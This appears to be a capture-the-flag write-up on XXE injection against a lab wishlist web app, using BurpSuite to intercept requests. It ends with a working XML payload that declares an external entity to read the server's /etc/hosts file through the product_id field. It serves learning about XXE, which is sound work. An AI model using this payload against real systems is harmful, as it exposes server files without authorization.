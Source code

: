 In the upcoming tasks, we will examine how XXE works and how to exploit it.

## Tasks

- What is the flag discovered after navigating through the wishes?
- What is the flag seen on the possible proof of sabotage?

### What is the flag discovered after navigating through the wishes?


We now try to exploit the webapplication via XXE. For this task we use `BurpSuite`.


First we try to understand how the web application works and also intercept the traffic. Between every step, we intercept the traffic and save it via `Strg+R`

1. We add an item to the wishlist.
2. We check our Chart
3. We proceed to checkout
4. We complete checkout

After analyzing all the steps we did, `step 2` seems very interesting.


![Burp-01](assets/img/tryhackme/cyberadvent/day02/01.png )

We have our XML here at the POST `whichlist.php` Request.

Now we can try to add the `DTD` and try to add an `external` source. 


```xml

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

